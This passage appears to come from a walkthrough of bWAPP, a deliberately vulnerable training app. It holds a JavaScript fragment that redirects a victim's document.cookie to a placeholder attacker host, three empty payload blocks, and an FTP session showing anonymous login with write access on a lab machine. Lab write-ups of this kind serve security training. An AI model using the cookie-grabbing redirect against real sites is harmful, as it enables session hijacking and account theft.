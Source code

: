 ```
	{
		xmlResp=xmlhttp.responseText;
		// document.getElementById("response").innerHTML=xmlResp
		alert(xmlResp);
		document.location="http://[attacker_ip]:8888/grab.cgi?"+document.cookie;
	}
}
// xmlhttp.open("TRACE","/bWAPP/",true);
xmlhttp.open("GET","/bWAPP/",true);
// xmlhttp.withCredentials = true;
xmlhttp.send();
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Insecure FTP Configuration 💀

Anonymous login with write permissions are enabled

```
$ ftp 192.168.1.9
Connected to 192.168.1.9.
anonymous
220 ProFTPD 1.3.1 Server (bee-box) [192.168.1.9]
Name (192.168.1.9:dean): 331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||42936|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 root     www-data   543803 Nov  2  2014 Iron_Man.pdf
-rw-rw-r--   1 root     www-data   462949 Nov  2  2014 Terminator_Salvation.pdf
-rw-rw-r--   1 root     www-data   544600 Nov  2  2014 The_Amazing_Spider-Man.pdf
-rw-rw-r--   1 root     www-data   526187 Nov  2  2014 The_Cabin_in_the_Woods.pdf
-rw-rw-r--   1 root     www-data   756522 Nov  2  2014 The_Dark_Knight_Rises.pdf
-rw-rw-r--   1 root     www-data   618117 Nov  2  2014 The_Incredible_Hulk.pdf
-rw-rw-r--   1 root     www-data  5010042 Nov  2  2014 bWAPP_intro.pdf
226 Transfer complete
ftp> puts test.txt
?Invalid command.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||28299|)
150 Opening BINARY mode data connection for test.txt
     0        0.00 KiB/s
226 Transfer complete
ftp> ^D
221 Goodbye.
```